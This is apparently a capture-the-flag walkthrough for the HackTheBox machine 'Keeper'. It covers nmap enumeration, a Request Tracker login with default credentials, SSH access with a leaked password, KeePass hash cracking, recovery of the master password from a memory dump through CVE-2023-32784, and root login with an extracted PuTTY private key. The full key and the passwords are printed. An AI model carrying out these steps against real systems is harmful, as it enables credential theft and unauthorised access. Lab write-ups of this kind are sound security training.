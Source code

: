 # NMAP
```
# Nmap 7.93 scan initiated Fri Aug 25 08:19:35 2023 as: nmap -p- -Pn -sC -sV -T4 -oN nmap.txt -vvvv 10.10.11.227
Warning: 10.10.11.227 giving up on port because retransmission cap hit (6).
Nmap scan report for keeper.htb (10.10.11.227)
Host is up, received user-set (0.34s latency).
Scanned at 2023-08-25 08:19:35 EDT for 2455s
Not shown: 65408 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       REASON      VERSION
22/tcp    open     ssh           syn-ack     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp    open     http          syn-ack     nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

# Enumerating keeper.htb
Viewing http://keeper.htb, we are able to find another subdoomain ```tickets.keeper.htb```. We will add this subdomain to our /etc/host file

```
10.10.11.227    keeper.htb tickets.keeper.htb
```

Looking at http://tickets.keeper.htb, we are able to find that this is an open source ticketing system used by Best Practical Solutions. From https://docs.bestpractical.com/rt/5.0.0/README.html, we are able to find the default credentials to be root:password. Using this set of password, we are able to login to the ticketing system.

From http://tickets.keeper.htb/rt/Ticket/Display.html?id=300000, we are able to find a ticket relating to a problem with keepass. We can know from here, that this website or server uses keepass.

```
Lise,

Attached to this ticket is a crash dump of the keepass program. Do I need to update the version of the program first...?

Thanks!  
```

Scrolling to http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27, we are able to find the details of the user named Inorgaard. In the comments, we are able to find that the default password for the user is Welcome2023!

```
New user. Initial password set to Welcome2023!
```

Using this new set of credentials, we can then gain SSH access. 

```
┌──(kali㉿kali)-[~]
└─$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ 
```

# Obtaining user.txt

```
lnorgaard@keeper:~$ cat /home/lnorgaard/user.txt
<user flag>
```

# Privilege Escalation to root
In the /home/lnorgaard directory, we are able to find a RT30000.zip file. Unzipping the file, gives us a the KeePass dump file and passcodes.kdbs files

```
┌──(kali㉿kali)-[~/Desktop/keeper]
└─$ unzip *.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx          
```

Using ```KeePassXC```, we realize that the database is password encrypted and we would need the password to view the contents of the database. Next, we will generate the hash of KeePass using keepass2john

```
┌──(kali㉿kali)-[~/Desktop/keeper]
└─$ keepass2john passcodes.kdbx
passcodes:$keepass$*2*60000*0*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7*08500fa5a52622ab89b0addfedd5a05c*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc
```

Next, we will use John the Ripper to attempt to crack the password for the KeePass database. However, this does not yield any results.

```
┌──(kali㉿kali)-[~/Desktop/keeper]
└─$ john --format="keepass" --wordlist=rockyou.txt keepass_hash                          
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Searching up for public exploits for Keepass, we are able to find that Keepass is vulnerable to CVE-2023-32784, that allows us to extract the plaintext password from the dump file. Using the exploit from https://github.com/CMEPW/keepass-dump-masterkey, we can then extract the password from the dump file

```
┌──(kali㉿kali)-[~/Desktop/keeper]
└─$ python3 keepass_dump.py KeePassDumpFull.dmp
2023-08-26 03:39:55,302 [.] [main] Opened KeePassDumpFull.dmp

Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

However, there are some weird characters in the extracted password. Searching up the characters that we have retreived, we are able to find that this belongs to a Danish dessert called Rødgrød Med Fløde. Using that as the password, we are able to view the KeePass database.

Within the database, we are able to obtain a password ```F4><3K0nd!``` for the root user from the Network group, but the password does not seem to be able to authenticate to the SSH server. We are also able to extract the Putty Key file belonging to the root user from the notes

```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Next, we can extract the private key file from the putty key file

```
puttygen root.ppk -O private-openssh -o id_rsa
```

Using the private key that we have extracted, we are able to login to the SSH server as a root user

```
┌──(kali㉿kali)-[~/Desktop/keeper]
└─$ chmod 600 id_rsa
                                                                                                               
┌──(kali㉿kali)-[~/Desktop/keeper]
└─$ ssh -i id_rsa root@10.10.11.227            
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# 
```

# Obtaining root flag

```
root@keeper:~# cat /root/root.txt
<root flag>
```
